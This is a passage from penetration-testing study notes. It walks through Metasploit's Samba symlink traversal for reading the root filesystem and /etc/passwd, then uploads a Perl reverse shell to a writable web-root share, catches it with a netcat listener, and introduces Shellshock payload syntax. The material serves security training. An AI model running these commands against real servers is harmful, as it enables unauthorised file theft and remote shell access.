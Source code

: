 Another vulnerability known as "Samba Symlink Directory Traversal", allows an attacker to create a symbolic link to the root (/) partition from a writable share allowing to read access to the entire file system. It requires that the Samba server contains a writable share and that into the `smb.conf` is set `widelinks = true`.
`smbmap -H <TargetIP>`: to check available shares and their permissions (let's suppose that `<SMBShare>` has write access).
`msfconsole -q`, `search samba symlink`, `use auxiliary/smb/samba_symlink_traversal`, `show options`, `set RHOST <TargetIP>`, `set SMBSHARE <SMBShare>`, `set SMBTARGET <SMBTarget>` (default is `rootfs`), `exploit`: to run an attack against the `Samba Symlink Directory Traversal` vulnerability.
`smbclient \\\\<TargetIP>\\<SMBShare> -N`: to connect to the linked system directory (default is `rootfs`), where `-N` is for the anonymous access.
Once accessed to the share, we can navigate in the root filesystem: `cd rootfs`, `cat /etc/passwd | less`. Here we can use the `get`/`put` commands to download/upload files. In addition, we can use the `tar` command to create archive of all files within a directory: `cd /etc`, `tar c ../<SMBShare>/etc_files.tar`.

In the following scenario, instead, we will cover what we can do if we have a fully patched Samba server, but with configuration issues.
`nmap --script smb-os-discovery <TargetIP> -p445`: to check the (non-vulnerable) Samba version.
`smbmap -H <TargetIP>`: to check available shares and their permissions (let's suppose that `<SMBShare>` has write access and it is a web root `www`).
`smbclient \\\\<TargetIP>\\www -N`: to connect to the web root Samba writable share.
Now we need to check if there are web server-interpreted languages we can use to our advantage.
Assume that the server is configured to process Perl (CGI) programs (confirmed by the presence of a `index.pl` script in the writable share). We can try to execute the present Perl script navigating to `http://<TargetIP>/index.pl`.
Now, we can get a proper shell from `/usr/share/webshells` or from http://pentestmonkey.net/tools/web-shells/.
Once modified the shell (changing IP/port values), we can upload it to our Samba share: `put /root/Desktop/perl-reverse-shell.pl`.
Now, we can bring up a `netcat` listener on our attacker system: `nc -nl -p 1234 -v`: where `-n` configures the listener to use numeric-only IP addresses (no DNS), `-l` specifies the listen mode.
Go to `http://<TargetIP>/perl-reverse-shell.pl`: to execute the Perl script ang get the reverse shell.

### Exploiting Shellshock - Study Guide

*Shellshock* (or *Bashdoor*) is a security vulnerability affecting the Bash shell, a widely-used command-line interface for Unix and Linux operating systems, and affected CGI programs on web servers, DHCP clients, OpenSSH, and several other attack vectors.
It exploits Bash's behavior when evaluating environment variables to execute arbitrary commands on the target system. When Bash evaluates an environment variable, it autonomously decides whether to execute the content as a command.
Attackers exploit this behavior by injecting malicious commands into environment variables. For example, an attacker might create a variable like `MALICIOUS_VARIABLE='() { :; }; echo "ATTACK"'`, containing a command within the braces. When Bash encounters this variable, it interprets the content as a function definition followed by a command to execute. Consequently, the malicious command 'echo "ATTACK"' is executed by Bash. When these variables are evaluated by Bash, the malicious commands are executed, allowing attackers to gain unauthorized access, execute arbitrary code, and compromise the security of the target system.

The discovery of Shellshock resulted in several CVEs assigned to different attack vectors.
